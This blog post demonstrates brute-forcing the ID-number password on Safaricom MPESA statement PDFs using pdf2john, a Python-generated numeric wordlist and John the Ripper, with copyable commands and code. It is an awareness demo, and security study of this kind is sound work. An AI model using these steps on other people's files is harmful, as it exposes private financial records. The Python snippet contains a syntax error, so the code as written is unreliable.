 ```yaml
---
layout: post
title:  "Safaricom, PDFs and Passwords"
date:   2022-08-19 11:35:00 +0300
categories: jekyll update
---
```


Until recently, Safaricom has been emailing my MPESA Statements monthly in PDF format and the PDF had a basic password; whatever form of identification you used when registering your line.

<br>

So, being bored, I decided to try and see how easy it could be for an attacker to bruteforce the password for my MPESA Statements. Turns out, it pretty f*****g easy.

<br>

First off, a couple of things to take into consideration;

- [x] Safaricom aren't at fault for the security measure they use to protect the PDF they sen(t/d) you.

- I don't know if sen(t/d) is a real thing.

- [x] This is a basic demonstration on bruteforcing and scripting.

- [x] This assumes that a third party has access to your email (change your passwords and use MFA).

<br>

### Getting a hash of the protected PDF

We use [John The Ripper](https://github.com/openwall/john)'s _pdf2john_ to get a hash of the PDF file.

``./pdf2john.pl mpesa-statement.pdf > pdf.hash``

<br>

### Generate a wordlist for all possible ID number combinations.

A quick search online reveals that the ID number has 8 digits. That makes the possible number of passwords for the PDF to be **10<sup>8</sup> = 100,000,000**.

Yes, that's 100 million possible passwords. But that's a way overestimated number because I doubt we have someone with the ID number 00000001. I think the ID numbers would start getting valid past the 1000 mark, and that is just for those old folks, like the pre-independence day folks. 

The new generation IDs start at 20000000 - 40000000 mark. That leaves us with a wordlist of 20,000,000.

To generate the wordlist(numberlist?id_list?eh), we use a basic python script:
```
with open("id_list.txt", "w") as file:
    for number in range(20000000, 40000001):
      file.write(f'{number}'\n)
```

The above code takes 6 seconds to run and generates a file of 172mbs.

<br>

### Cracking the PDF hash

Running ``john`` with the hash and the wordlist/id_list/numberlist takes less that 4 seconds to find the password.

``john pdf.hash --wordlist=id_list.txt``

Aaaaaand voila!
